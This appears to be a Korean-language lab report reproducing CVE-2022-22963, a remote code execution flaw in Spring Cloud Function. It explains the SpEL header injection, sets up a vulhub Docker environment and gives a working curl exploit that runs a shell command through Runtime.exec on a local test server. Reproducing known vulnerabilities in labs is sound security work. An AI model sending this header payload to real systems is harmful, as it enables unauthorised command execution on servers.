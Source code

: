 # CVE-2022-22963 - Spring Cloud Function 원격 코드 실행 (RCE) PoC 보고서

## 요약

CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 및 3.2.2 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점이다.  
공격자는 **`spring.cloud.function.routing-expression`** HTTP 헤더에 Java 표현식을 삽입하여 서버 측에서 원격으로 임의의 코드를 실행할 수 있다.


### ✔️ 취약점 원인

- Spring Cloud Function은 요청을 라우팅할 때,  
  `spring.cloud.function.routing-expression`이라는 헤더를 읽어 SpEL(Spring Expression Language)을 해석함
- 이 필드에 Java의 `Runtime.getRuntime().exec()` 호출 같은 명령이 들어오면,  
  **해당 명령어를 실행시켜버림** (보안 필터링 없음)
- 즉, 공격자는 **HTTP 요청만으로 서버 내에서 임의 명령어를 실행할 수 있음**

### ✔️ 공격 흐름

1. 공격자가 POST 요청에 악성 헤더 삽입  
2. Spring 서버가 해당 SpEL을 파싱하여 함수로 인식  
3. Java `Runtime.exec()` 호출됨 → 명령어 실행  
4. 명령어 실행 결과는 로그나 파일로 확인 가능

---

## 환경 구성

### 1. 취약한 Docker 환경 다운로드 (sparse checkout)

```bash
mkdir vulhub-cve
cd vulhub-cve
git init
git remote add origin https://github.com/vulhub/vulhub.git
git config core.sparseCheckout true
echo "spring/CVE-2022-22963" >> .git/info/sparse-checkout
git pull origin master
cd spring/CVE-2022-22963
```

### 2. 취약점 재현
```bash
curl -X POST http://localhost:8080/functionRouter \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(new String[]{\"sh\", \"-c\", \"id > /tmp/id.txt\"})" \
  -H "Content-Type: text/plain" \
  --data 'test'
```

### 3. 확인
<img width="1466" alt="image" src="https://github.com/user-attachments/assets/f811c6c4-c346-4254-9d2b-a3086f9f2a8c" />

```bash
docker exec -it cve-2022-22963-spring-1 bash
cat /tmp/id.txt
```
